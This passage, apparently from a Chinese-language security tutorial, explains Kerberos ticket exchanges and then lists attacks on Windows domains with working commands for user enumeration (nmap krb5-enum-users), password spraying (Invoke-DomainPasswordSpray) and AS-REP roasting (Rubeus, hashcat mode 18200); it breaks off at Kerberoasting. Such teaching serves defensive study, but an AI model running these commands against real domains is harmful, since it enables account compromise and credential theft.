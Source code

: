 • IP_list 不为 null 时 TGS_REQ 请求的 IP 是否在 IP_list 中

  

验证通过后

TGS 随机生成一个新的 SessionKey，并返回两部分内容

1\. 旧的 SessionKey 加密的 SS 主体名、Timestamp 、Lifetime、新SessionKey

2\. ST 即 SS 密钥加密的 Client 主体名、SS 主体名、IP_list、Timestamp、Lifetime、新SessionKey

  

 **Application Request (AP_REQ)**

AP_REQ 没有标准，应用使用 ST 和 SessionKey 给服务器证明身份

Client 正确解密出新SessionKey 后，用新 SessionKey 加密一个 Authenticator

Authenticator 包括 Client 主体名、Timestamp

Client Authenticator 和 ST 给 SS

  

 **Application Replay (AP_REP)**

SS 收到 AP_REQ 请求后执行和 TGS_REP 一样的验证操作

TGS_REQ/TGS_REP 和 AP_REQ/AP_REP 的操作非常相似，多出 TGS_REQ/TGS_REP
是为了用户只需输入一次密码即可访问多个服务，如果只需访问一个服务，可以简化掉 TGS_REQ/TGS_REP 这个过程

  

  

 **04  **Kerberos 相关的攻击方式

 **域用户枚举**

在没有域内用户的情况下，通过 AS_REP 对用户存在和不存在返回的不同，枚举域内用户

nmap --script krb5-enum-users

  

 **Password Spray  **

域用户一般都有账户锁定机制，爆破密码容易锁定账号。因此可以使用固定密码，去尝试所有的域账号

DomainPasswordSpray 会自动获取用户列表，并尝试登录

Invoke-DomainPasswordSpray -Password Spring2017

  

 **ASREPRoast**

如果没有启用预认证，则在AS_REP 中可以获取到用户 HASH 加密的数据，基于这点可以离线爆破用户hash

Rubeus 可以寻找没有启用预认证的用户并获取 hash 加密的数据

Rubeus.exe asreproast /format:hashcat /outfile:hash.txt

hashcat64.exe -m 18200 hash.txt pass.txt --force

  

 **Kerberoasting  **
